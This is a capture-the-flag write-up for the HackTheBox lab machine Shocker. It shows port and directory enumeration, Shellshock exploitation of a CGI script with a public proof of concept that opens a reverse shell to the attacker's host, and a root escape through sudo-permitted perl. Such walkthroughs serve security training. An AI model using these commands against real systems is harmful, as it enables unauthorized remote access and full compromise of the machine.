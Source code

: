 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [Shocker](https://app.hackthebox.com/machines/Shocker)

> [!tip]- Summary with Spoilers
> - This Linux machine was vulnerable to [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)), allowing RCE via the `user.sh` CGI script.
> - Initial access was achieved as `shelly`, and privilege escalation was possible by leveraging `sudo` to run `perl` as `root`.

## Enumeration

```console
  $ nmap -n -sCV -T4 -p1-65535 -v $t
  [...]
  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  | http-methods:
  |_  Supported Methods: GET HEAD POST OPTIONS
  |_http-title: Site doesn't have a title (text/html).
  2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
  |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
  |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  [...]
```

`ffuf` directory scan:

```console
$ ffuf -ic -v -w ~/list.txt -u http://${t}/FUZZ/
[...]

[Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 112ms]
| URL | http://10.10.10.56/cgi-bin/
    * FUZZ: cgi-bin

:: Progress: [1/1] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

Searching the `cgi-bin` directory:

```console
$ ffuf -ic -v -w ~/wordlists/seclists/Discovery/Web-Content/big.txt -u http://${t}/cgi-bin/FUZZ.sh
[...]

[Status: 403, Size: 306, Words: 22, Lines: 12, Duration: 126ms]
| URL | http://10.10.10.56/cgi-bin/.htpasswd.sh
    * FUZZ: .htpasswd

[Status: 403, Size: 306, Words: 22, Lines: 12, Duration: 114ms]
| URL | http://10.10.10.56/cgi-bin/.htaccess.sh
    * FUZZ: .htaccess

[Status: 200, Size: 118, Words: 19, Lines: 8, Duration: 128ms]
| URL | http://10.10.10.56/cgi-bin/user.sh
    * FUZZ: user

:: Progress: [20476/20476] :: Job [1/1] :: 323 req/sec :: Duration: [0:01:00] :: Errors: 0 ::
```

```console
$ curl -si http://${t}/cgi-bin/user.sh
HTTP/1.1 200 OK
Date: Wed, 04 Oct 2023 17:53:29 GMT
Server: Apache/2.4.18 (Ubuntu)
Transfer-Encoding: chunked
Content-Type: text/x-sh

Content-Type: text/plain

Just an uptime test script

 13:53:29 up  1:13,  0 users,  load average: 0.01, 0.12, 0.10
```

## Exploitation

This host is vulnerable to the [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)). I'll use [shellpoc.py](https://github.com/zalalov/CVE-2014-6271/blob/master/shellpoc.py):

```console
$ python2 shellpoc.py 
Usage: shellpoc.py <host> <vulnerable CGI> <attackhost/IP>
Example: shellpoc.py localhost /cgi-bin/test.cgi 10.0.0.1/8080

  e@k(!3826):~
$ python2 shellpoc.py $t /cgi-bin/user.sh 10.10.14.20/443
```

Catching the reverse shell:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.56] 53514
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
cat /home/shelly/user.txt
d2b360[...]

```

## Privilege Escalation

`perl` is available via `sudo`, from which we can escape to a `root` shell:

```console
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
87d34c[...]
```
